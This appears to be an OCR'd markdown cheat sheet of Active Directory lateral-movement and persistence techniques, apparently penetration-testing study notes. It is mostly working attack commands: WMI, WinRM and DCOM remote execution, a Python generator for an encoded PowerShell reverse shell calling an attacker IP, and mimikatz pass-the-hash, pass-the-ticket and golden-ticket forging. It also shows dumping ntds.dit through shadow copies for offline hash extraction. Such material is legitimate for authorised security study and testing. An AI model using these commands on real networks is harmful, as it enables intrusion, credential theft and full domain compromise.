 # Lateral movements in AD

## Techniques

### Windows Remote Management

#### WMI

Takes a local group `Administrators` account:

##### In `cmd`

Deprecated:
```
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "cmd"
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "powershell -nop -w hidden -e longbase64encodedstring"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $VictimIP -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e somebase64string
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```

For a PowerShell reverse shell (in Python, replace the IP and Port): 
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("AttackerIp",AttackerPort); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

#### WinRM

##### In `cmd`: WinRS (Windows Remote Shell)
 
```
winrm -r:targethostname -u:user -p:pass  "powershell -nop -w hidden -e somebase64string"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName $VictimIp -Credential $credential

Enter-PSSession $winrm_session_number
```

### PsExec

Pre-requisites:
- user `targetuser` needs to be part of the `Administrators` local group
- the `ADMIN$` share must be available
- `File and Printer Sharing` has to be turned on

Uses Sysinternals: https://learn.microsoft.com/en-us/sysinternals/

```
kali $ rdesktop -u $firstUser $firstTargetIp
cmd > C:\path\to\PsExec64.exe -i  \\targethostname -u targetdomain\targetuser -p somepass cmd
> hostname
> whoami
```

### Pass the Hash

Same requisites as PsExec: an `ADMIN$` share available and `File and Printer sharing` enabled. And an SMB connection (usually port 445). \
Works with servers and services using NTLM authentication, but NOT with Kerberos authentication. \
Works for Active Directory domain accounts and the built-in local administrator account. Doesn't work for local admins.\
Impacket-Wmiexec on GitHub: https://github.com/fortra/impacket/blob/master/examples/smbclient.py
```
/usr/bin/impacket-wmiexec -hashes 00000000000000000000000000000000:somelonghashstring Administrator@$VictimIP
```

### Overpass the Hash

First, run a process as a different user with Shift-Right click, say Notepad, to cache this targeted user credentials. Then:
```
kali$ xfreerdp /cert-ignore /u:someuser /d:targetorg.com /p:somepass /v:somehostIp
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::pth /user:targetuser /domain:targetorg.com /ntlm:somentlmstring /run:powershell
PS2 > klist # check the cached tickets
PS2 > net use \\otherhostname
PS2 > klist # re-check the cached tickets
PS2 > cd c:\path\to\psexec
PS2 > .\PsExec.exe \\otherhostname cmd
cmd > whoami # targetuser
cmd > hostname # otherhostname
```

If the targeted user has access rights on other servers, the hash could allow to connect.

### Pass the Ticket

Context:
- attacker connected as user1 on host1
- user2 is connected on host1 and has access to resources on host2 \
Goal:
- steal user2's Ticket Granting Service (TGS) in memory and inject it in user1's session.
- then connect as user1 on host2 using user2's ticket or access the resources on host2

```
PS > whoami # user1
PS > net view \\host2 /all # list all the shares on the remote host2
PS > ls \\host2\someshare # access denied to a particular share 'someshare'
PS > c:\path\to\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
PS > dir *.kirbi # file with the tickets
mimikatz # kerberos::ptt name_of_the_kirbi_file_with_user2_tickets.kirbi
PS > klist # lists the tickets, user2 should appear
PS > ls \\host2\someshare # access granted
```

### DCOM

In an elevated PowerShell:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$targetIpAddress")) # the IP address is the only parameter to modify
```
Usage to open a `calc` on the remote computer (with local admin rights on the remode):
```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc", "7") # parameters are Command, Directory, Parameters, and WindowState
```
Usage to launch a reverse PowerShell on the remote computer (local admin):
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e base64longreverseshellstring", "7")
```
Reference: https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand

## Persistence

### Golden ticket

Kerberos service account: `krbtgt`
Mimikatz on GitHub:
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos

Takes a Domain Admin account on the Domain Controller, or have compromised the Domain Controller:
```
SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access denied

DomainController c:\path\to\mimikatz > .\mimikatz.exe # on the Domain Controller, with a Domain Admin account
DC mimikatz # privilege::debug
DC mimikatz # lsadump::lsa /patch # search for the krbtgt service NTLM hash, and get the domain SID: S-1-5-21-x-y-z

SomeWorkstation c:\path\to\mimikatz > mimikatz.exe # on a workstation, with a random user account
SomeWorkstation mimikatz # kerberos::purge
SomeWorkstation mimikatz # kerberos::golden /user:targetrandomuser /domain:somedomainname.com /sid:S-1-5-21-x-y-z /krbtgt:NtlmHash /ptt
SomeWorkstation mimikatz # misc::cmd

SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access granted on the Domain Controller
DomainController c:\any\path > ipconfig
c:\any\path > whoami # targetrandomuser
c:\any\path > whoami /groups # expected "somedomainname\Domain Admins"

SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainControllerIpAddress cmd.exe # access denied, the IP address triggers an NTLM authentication
```

Reference: https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don%27t-Get-It.pdf

### Shawdow copies

Connect as a Domain Admin on the Domain Controller.
Impacke-SecretDump on GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py
```
c:\path\to\vshadow > .\vshadow.exe -nw -p c: # take note of the "Shadow copy device name"
> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\windows\ntds\ntds.dit c:\ntds.dit.bak
> reg.exe save hklm\system c:\system.bak

kali $ impacket-secretdump -ntds ntds.dit.bak -system system.bak LOCAL
```
Hashes can be cracked or used for PtH attacks.
